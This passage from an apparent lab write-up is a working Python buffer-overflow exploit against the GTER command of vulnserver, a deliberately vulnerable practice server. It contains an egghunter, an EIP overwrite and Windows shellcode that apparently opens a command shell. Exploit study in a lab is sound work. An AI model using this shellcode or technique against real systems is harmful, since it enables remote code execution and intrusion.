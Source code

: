 ~~~
buf += "\x5f\x5a\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68"
buf += "\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8"
buf += "\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00"
buf += "\xff\xd5\x6a\x08\x59\x50\xe2\xfd\x40\x50\x40\x50\x68"
buf += "\xea\x0f\xdf\xe0\xff\xd5\x97\x68\x02\x00\x11\x5c\x89"
buf += "\xe6\x6a\x10\x56\x57\x68\xc2\xdb\x37\x67\xff\xd5\x57"
buf += "\x68\xb7\xe9\x38\xff\xff\xd5\x57\x68\x74\xec\x3b\xe1"
buf += "\xff\xd5\x57\x97\x68\x75\x6e\x4d\x61\xff\xd5\x68\x63"
buf += "\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6\x6a\x12\x59"
buf += "\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01\x01\x8d\x44\x24"
buf += "\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46\x56\x4e\x56"
buf += "\x56\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e"
buf += "\x56\x46\xff\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0"
buf += "\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c"
buf += "\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00"
buf += "\x53\xff\xd5"


def expl():
    conn = remote('192.168.0.57', 6666, typ='tcp')
    EIP = "\xAF\x11\x50\x62"
    jmpBack = "\xe9\x64\xff\xff\xff" #not inverted bytes since it goes to the stack!
    #32 bytes egghunter
    eggHunter = "\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74\xef\xb8\x62\x33\x33\x66\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7"
    buf = "\x90"*30 + eggHunter + "\x90"*85 + EIP + jmpBack + "C"*300
    payload = "GTER /.:/" + buf + "\r\n"
    conn.send(payload)
    print(conn.recv(1024))
    conn.close()

def runOptions(buf):
    for op in ['STATS', 'RTIME', 'LTIME', 'SRUN', 'TRUN', 'GMON', 'GDOG', 'HTER', 'LTER', 'KSTAN']: #removed GTER and KSTET
        conn = remote('192.168.0.57', 6666, typ='tcp')
        payload = op + " " + buf
        print('Sending: {}'.format(payload))
        conn.send(payload)
        print(conn.recv(1024))
        conn.close()

runOptions(buf)
expl()
~~~

![11]({{ "/assets/media/vulnserver/vulnserver_gter_11.png" | absolute_url }})

![12]({{ "/assets/media/vulnserver/vulnserver_gter_12.png" | absolute_url }})

> **Note:** Windows XP SP3 has DEP enabled by default. In order to correcly run this exploit you must turn DEP off for vulnserver.exe.
